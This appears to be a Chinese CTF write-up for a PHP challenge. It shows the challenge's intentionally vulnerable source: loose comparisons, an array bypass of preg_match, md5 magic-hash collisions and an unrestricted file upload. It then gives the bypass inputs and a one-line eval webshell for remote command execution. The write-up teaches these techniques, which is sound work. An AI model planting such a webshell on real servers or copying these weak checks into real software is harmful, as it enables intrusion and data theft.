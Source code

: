 提示：或许你能找到我不小心传上去的源代码~

可以用dirsearch扫也可以猜一猜www.zip

拿到源码

```php
<?php
header('Content-Type: text/html; charset=UTF-8');
$flag1='r00t2024{y0ur_php_i5_s0_good}';
if(isset($_GET['b'])){
    $a=0;
    $b=$_GET['b'];
    if(!intval($b)&&$a==$b){
        echo "你学会php的弱类型比较啦<br>";
        if(isset($_GET['num'])&&!preg_match("/[0-9]/", $_GET['num'])&&intval($_GET['num'])){
            echo "哇塞！怎么绕过preg_match你也会！！<br>";
            if(isset($_GET['ans1'])&&isset($_GET['ans2'])&&$_GET['ans1']!=$_GET['ans2']&&md5($_GET['ans1'])==md5($_GET['ans2'])){
                echo "好厉害！！！<br>";
                echo $flag1;
                echo "<br>";
                $file = $_FILES['file'];
                if ($file['size'] > 1048576) {
                    die('File size is too large. Maximum allowed size is 1MB.');
                }
                if (!isset($file)){
                    die('upload error');
                }
                $result = move_uploaded_file($file['tmp_name'], $file['name']);
                echo "uploade seccess!";
                
            }
            else{
                die("最后一步啦！什么是MD5碰撞啊");
            }
        }
        else{
            die("oh no!不可以包含0~9的数字！");
        }
    }
    else{
        die('不能相等！要相等！');
    }

}
else{

    die("或许你能找到我不小心传上去的源代码~");
    
}
?>
```

+ php弱类型比较：当字符串与数字比较时会将字符串前面的数字拿出来与数字比较，那么让b=abc（任意字母开头即可）

+ preg_match在接收到数组时会返回false，那么num[]=123就可以了

+ md5碰撞，php会将"0e1234"类似的字符串视为0（科学计数法），所以构造两个md5加密后为该格式即可，可以直接搜索md5碰撞

  >  MMHUWUV 0e701732711630150438129209816536
  >
  > MAUXXQC 0e478478466848439040434801845361
  >
  > IHKFRNS 0e256160682445802696926137988570
  >
  > GZECLQZ 0e537612333747236407713628225676
  >
  > GGHMVOE 0e362766013028313274586933780773
  >
  > GEGHBXL 0e248776895502908863709684713578
  >
  > EEIZDOI 0e782601363539291779881938479162
  >
  > DYAXWCA 0e424759758842488633464374063001

  


然后就可以文件上传了

php一句话木马：`<?php eval($_GET['cmd'])?>`这段代码可以执行你给cmd传入的命令，发现放在了同一目录，可以直接file_get_contents，也可以用system（）函数rce，还可以直接打印环境变量中的flag